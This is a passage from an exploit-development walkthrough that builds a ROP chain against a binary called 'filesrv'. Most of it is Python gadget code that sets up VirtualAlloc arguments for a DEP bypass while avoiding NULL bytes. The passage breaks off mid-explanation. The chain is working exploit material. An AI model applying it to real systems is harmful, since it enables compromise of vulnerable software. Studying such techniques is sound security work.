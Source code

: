 ```python
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xfffffc10) #0x3f0
rop += p32(filesrv+0x00059a05) # sub eax, edx; pop ebp; ret;)
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Great, we add the value first, passing the value of _ECX_ to _EAX_ and then doing a negative subtraction, again to avoid NULL bytes. We should increase the stub-pointer after.

```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```

Now it's time to set up the _lpAddress_ parameter of VirtualAlloc, and since this should be the same value we calculated before, we can just do the same this time. We will subtract 0x3f0-4 to compensate for this (since we increased the stub-pointer by 4).

```python
rop += p32(filesrv+0x0003e7d2) # mov eax, ecx; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xfffffc14) #0x3f0-4
rop += p32(filesrv+0x00059a05) # sub eax, edx; pop ebp; ret;)
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Awesome, now we are ready to increase the stub-pointer again and move to the next argument.

```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```

We need to set _dwsize_ to 1, since we want to avoid NULL bytes, we can pop -1 to a register and then use a gadget to negate it, and then move it to the stub, as shown below.

```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(0xffffffff) #-1
rop += p32(filesrv+0x00031630) # neg eax; pop ebp; ret;
rop += p32(0x41424344) #junk for EBP
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```
Time to increase the stub-pointer...

```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```
Continuing, let's set up now the _flAllocationType_ argument to 0x1000. Nothing fancy here. Just the same we are doing  negating the value and then increasing it. (to avoid NULL and/or badchars)
